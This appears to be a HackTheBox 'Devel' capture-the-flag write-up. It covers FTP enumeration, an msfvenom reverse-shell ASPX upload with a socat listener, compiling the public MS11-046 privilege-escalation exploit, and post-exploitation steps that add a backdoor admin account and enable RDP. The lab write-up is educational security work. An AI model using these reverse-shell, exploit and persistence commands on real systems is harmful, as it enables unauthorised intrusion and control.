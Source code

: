 ```yaml
---
title: Devel Writeup | Without Metasploit
date: 2021-09-04
categories: [WriteUp, HackTheBox]
tags: [HackTheBox, WriteUp, OSCP, TJNULLs List] 
---
```


---

IP : Dynamic (HTB VIP+)
OS : Windows 
Difficulty : Easy

Covered Issues : FTP, Arbitrary File Upload, Windows Priv Esc.

Tools Used : nmap, nikto, lftp, rlwrap, socat, searchsploit, i686-w64-mingw32-gcc

Remediation Advise : 
	- Disable FTP Service (or disable anonymous login)
	- Use SFTP. User better credentials.
	- Upgrade and Update to latest Windows Server OS.
	- Install all security patches.
	- Upgrade IIS Server to latest version.
	
---

#### Enumeration

- **nmap**

```sql
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-03 05:39 EDT
Nmap scan report for 10.129.195.182
Host is up (0.29s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.33 seconds
```

![alt](/assets/Images_P1_DEVEL/DEVEL_1.png)

-  **nikto**

```sql
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.195.182
+ Target Hostname:    10.129.195.182
+ Target Port:        80
+ Start Time:         2021-09-03 05:43:16 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 2.0.50727
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ /: Appears to be a default IIS 7 install.
+ 7915 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2021-09-03 06:58:50 (GMT-4) (4534 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

![alt](/assets/Images_P1_DEVEL/DEVEL_2.png)

----

#### Weaponizing Exploitation Tool

- Critical Information 
	- Web Server is running IIS Server.
	- from namp scan it can be observered anonymous login is accessible.
	- ftp is root directory of IIS server.
	- root directory of web server is writeable with ftp.

Creating Reverse Shell
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f aspx -o prevshell.aspx
```

![alt](/assets/Images_P1_DEVEL/DEVEL_3.png)

Putting reverse shell exploit in webroot using ftp.

![alt](/assets/Images_P1_DEVEL/DEVEL_4.png)

----

#### Exploitation

Setting up socat listener.
```bash
$ rlwrap socat -d -d TCP4-LISTEN:4444,fork STDOUT
```

And accessing `prevshell.aspx` the exploit created previously with msfvenom sent into webserver root. 
It gave low level access. (server user)

![alt](/assets/Images_P1_DEVEL/DEVEL_5.png)

----

#### Privilege Escalation
- Enumeration for PrivEsc
	- whoami : webserver user
	- systeminfo : 
		- OS Name: Microsoft Windows 7 Enterprise 
		- OS Version: 6.1.7600 N/A Build 7600
		- Hotfix: N/A 

![alt](/assets/Images_P1_DEVEL/DEVEL_6.png)

It can be concluded running windows 7 was not updated with security patches.

On googling found Windows Local Privilege Escation Exploit from [ExploitDB](https://www.exploit-db.com/exploits/40564).
This is vulnerable to [CVE:2011-1249](https://nvd.nist.gov/vuln/detail/CVE-2011-1249)

![alt](/assets/Images_P1_DEVEL/DEVEL_7.png)

This exploit is also available in searchsploit DB as source code.
Compilation instructions are given in exploitDB page and in source code.

![alt](/assets/Images_P1_DEVEL/DEVEL_8.png)

> Exploit notes:
>   Privileged shell execution:
>     - the SYSTEM shell will spawn within the invoking shell/process
>   Exploit compiling (Kali GNU/Linux Rolling 64-bit):
>     - # i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
>   Exploit prerequisites:
>     - low privilege access to the target OS
>     - target OS not patched (KB2503665, or any other related
>       patch, if applicable, not installed - check "Related security
>       vulnerabilities/patches")
>   Exploit test notes:
>     - let the target OS boot properly (if applicable)
>     - Windows 7 (SP0 and SP1) will BSOD on shutdown/reset

Mirroring the exploit and Compiling as per instructions.

```bash
$ searchsploit afd | grep MS11-046

$ searchsploit -m windows_x86/local/40564.c

$ i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

![alt](/assets/Images_P1_DEVEL/DEVEL_9.png)

Putting compiled binary into webserver root using `lftp`.

![alt](/assets/Images_P1_DEVEL/DEVEL_10.png)

Navigating PrivEsc Binary and Escalating Privileges. And gettting confirmation.

![alt](/assets/Images_P1_DEVEL/DEVEL_11.png)

----
#### Post Exploitation

- **Finding Flags**
Admin Flag / root flag
![alt](/assets/Images_P1_DEVEL/DEVEL_12.png)
User Flag
![alt](/assets/Images_P1_DEVEL/DEVEL_13.png)


- **For easier access to system we can create new admin user account.**

```sql
# net user /add [*username] [password]
net user /add akash pass

# for adding in administrators group
# net localgroup administrators [username] /add
net localgroup administrators akash /add

```

![alt](/assets/Images_P1_DEVEL/DEVEL_14.png)


- **Enabling RDP Service**

```sql
# adding registeries
> reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f

> reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f

# Enabling Terminal Service
> sc config TermService start= auto

# Starting Terminal Service
> net start Termservice

# Opening Port for RDP
> netsh.exe
> firewall
> add portopening TCP 3389 "Remote Desktop"

# Finally starting RDP and logging in with rdesktop tool.
$ rdesktop 192.168.8.92
```

![alt](/assets/Images_P1_DEVEL/DEVEL_15.png)

----